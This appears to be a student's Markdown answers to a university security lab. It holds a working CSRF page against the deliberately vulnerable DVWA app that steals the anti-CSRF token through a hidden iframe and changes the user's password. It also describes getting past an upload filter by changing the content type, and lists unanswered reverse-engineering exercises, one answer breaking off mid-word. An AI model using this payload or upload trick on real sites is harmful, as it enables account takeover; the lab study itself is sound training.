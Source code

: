 # Part 1 - Advanced Web Exploits
# Exercise 1

> [!exercise] Exercise 1 - CSRF Token Stealing
>
> When on the high-security setting of DVWA, a unique ANTI-CSRF token is created each time the password change page is accessed, as shown in the workshop. To launch a CSRF attack in this case, we first need to steal the token. Create an HTML (name it: 'csrf.html') file that can steal the token from the DVWA CSRF page and change the password to 'csf2024s1'.
>
> **Answer:**
>
> The default `html` file already does the stealing for us, we just need to add the `hacklab IP` to the `source` and `url` variables.
>
> ```html
> <html>
> <body>
>     <p>TOTALLY LEGITIMATE AND SAFE WEBSITE </p>
>     <iframe id="myFrame" src="http://192.168.56.102/DVWA/vulnerabilities/csrf/" style="visibility: hidden;"
>         onload="maliciousPayload()"></iframe>
>     <script>
>         function maliciousPayload() {
>             console.log("start");
>             var iframe = document.getElementById("myFrame");
>             var doc = iframe.contentDocument;
>             var token = doc.getElementsByName("user_token")[0].value;
>             const http = new XMLHttpRequest();
>             const url = "http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=csf2024s1&password_conf=csf2024s1&Change=Change&user_token=" + token + "#";
>             http.open("GET", url);
>             http.send();
>             console.log("password changed");
>         }
>     </script>
> </body>
> </html>
> ```


<div style="page-break-after: always;"></div>

# Exercise 2

> [!exercise] Exercise 2 - Uploading the CSRF File
>
> Set the DVWA security level to MEDIUM. Upload the csrf.html file to the "hackable/uploads/" folder. Provide details of the steps you use to upload the HTML file with the security level set at medium.
>
> **Answer:**
>
> This was the exact same exercise from the workshop. Since the file upload only takes images, we simply intercept the packet in burp, change the content type to `image/jpeg` and forward it! 
> 
> ![[Pasted image 20240515072304.png]]
> 
> If we navigate to `<hacklab>/DVWA/hackable/uploads`, we can see the `html` file inside the directory.
> 
> ![[Pasted image 20240515072457.png|400]]

<div style="page-break-after: always;"></div>

# Exercise 3

> [!exercise] Exercise 3 - Triggering the Malicious HTML
>
> Show that after a user visits `http://[hacklabvm_ip]/hackable/uploads/csrf.html`, the password changes to 'csf2024s1'. Explain what happened.
>
> **Answer:**
>
> Clicking on the `csrf.html` file inside the uploads directory, we can see that the malicious script has executed and the password has been changed!
> 
> ![[Pasted image 20240515074706.png]]
> 
> The HTML code creates an invisible `iframe` that loads the DVWA CSRF page. When the `iframe` loads, it **triggers a function that steals the CSRF token from the page, constructs a malicious password change URL with the stolen token, and sends the request to change the password** to "csf2024s1" without the user's knowledge.
> 
> Modern browsers enforce the Same-Origin Policy (SOP) by default, which prevents malicious requests originating from domains other than the main website. To bypass this security measure, the **malicious HTML file needs to be hosted on the same domain as the target website**. That's why the **file is uploaded to the hacklab itself**, ensuring that the attack originates from the same domain and successfully changes the password.




# Part 2 - Digital Forensics

> [!exercise] Exercise 4 - Reversing (1)
>
> **q1. [2 points]** Download this [binary](https://myuni.adelaide.edu.au/courses/95262/files/14689600/download?download_frd=1). You can run it as `./q1` in Linux. You are not allowed to patch this program. Use Ghidra, Cutter, or Radare2 (or something else) to decompile and deduce the password required for revealing the secret. Get the program to print the secret.
>
> **Answer:**
> I st

> [!exercise] Exercise 5 - Reversing (2)
>
> **q2. [2 points]** Download this [binary](https://myuni.adelaide.edu.au/courses/95262/files/14689602/download?download_frd=1). You can run it as `./q2` in Linux. You are not allowed to patch this program. Use Ghidra/Cutter/Radare2 to determine what you need to do outside of the program to get it to reveal the secret. Get the program to print the secret.
>
> **Answer:**
>
> [Space for answer]

> [!exercise] Exercise 6 - Reversing (3)
>
> **q3. [2 points]** Download this [binary](https://myuni.adelaide.edu.au/courses/95262/files/14689603/download?download_frd=1). You can run it as `./q3` in Linux. You should patch this program to get it to reveal the secret using Ghidra/Cutter/Radare2 (as per workshop, Cutter is easiest, but feel free to use any program). Use the modified (patched) program to print the secret.
>
> **Answer:**
>
> [Space for answer]

> [!exercise] Exercise 7 - Matryoshka
>
> **q4. [3 points]** Analyze this [Hacktivist2-2.png](https://myuni.adelaide.edu.au/courses/95262/files/14689604/download?download_frd=1) to get the secret.
>
> **Answer:**
>
> [Space for answer]